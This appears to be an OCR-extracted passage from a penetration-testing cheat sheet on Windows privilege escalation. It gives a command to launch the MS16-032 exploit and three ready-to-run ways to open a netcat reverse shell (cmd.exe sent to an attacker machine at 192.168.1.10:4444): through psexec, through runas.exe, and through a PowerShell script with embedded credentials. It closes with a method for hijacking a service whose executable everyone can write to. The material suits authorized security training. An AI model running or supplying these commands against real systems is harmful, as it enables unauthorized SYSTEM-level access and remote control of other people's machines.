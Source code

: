       MS16-032 https://www.exploit-db.com/exploits/39719/
     
      `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"`
     
   
-   Powershell Priv Escalation Tools
    https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
 
-   Windows Run As - Switching users in linux is trival with the `SU` command.  However, an equivalent command does not exist in Windows.  Here are 3 ways to run a command as a different user in Windows.
 
      -   Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).
 
               C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 
               PsExec v2.2 - Execute processes remotely
               Copyright (C) 2001-2016 Mark Russinovich
               Sysinternals - www.sysinternals.com
 
      -   Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:
 
               C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
               Enter the password for Test:
               Attempting to start nc.exe as user "COMPUTERNAME\Test" ...
 
      -   PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.
 
               $username = '<username here>'
               $password = '<password here>'
               $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
               $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
               Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public
 
             Next run this script using powershell.exe:
 
             `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"`
 
 
-   Windows Service Configuration Viewer - Check for misconfigurations
    in services that can lead to privilege escalation. You can replace
    the executable with your own and have windows execute whatever code
    you want as the privileged user.  
    icacls scsiaccess.exe
 
         scsiaccess.exe  
         NT AUTHORITY\SYSTEM:(I)(F)  
         BUILTIN\Administrators:(I)(F)  
         BUILTIN\Users:(I)(RX)  
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
         Everyone:(I)(F)
 